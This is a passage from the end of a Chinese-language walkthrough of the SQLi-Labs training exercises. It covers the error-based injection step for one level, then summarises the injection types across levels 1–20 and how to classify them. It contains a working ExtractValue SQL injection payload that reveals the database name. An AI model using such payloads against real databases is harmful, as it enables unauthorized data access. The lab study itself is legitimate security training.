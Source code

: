   ```

  无任何回显信息

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 进行报错注入 方便起见只查询至数据库

  ```
  1" and ExtractValue('1',concat('~',database())) -- s
  ```

​	![](/assets/images/14-1.png)

## 总结与思考

1. 从 Less-1 到 Less-20，SQLi-Labs 涵盖了多种注入类型：
   - 数字型 / 字符型 / 搜索型；
   - POST 注入 / Header 注入 / Cookie 注入；
   - 盲注（基于布尔、时间、报错）；
   - 二次注入。

2. 对每种注入类型，重点应掌握：
   - 请求方式；
   - 回显特征；
   - 过滤与绕过；
   - 利用与修复思路。

3.  分类
   Less-1、2、3、4、11、12 回显（联合注入）、mysql_error() 存在报错注入

   Less-5、6、13、14  无回显 mysql_error()存在报错注入

   

## 附录

- [SQLi 常见 Payload 字典](#)
- [ASCII 可打印字符表](#)
- [工具命令参考](#)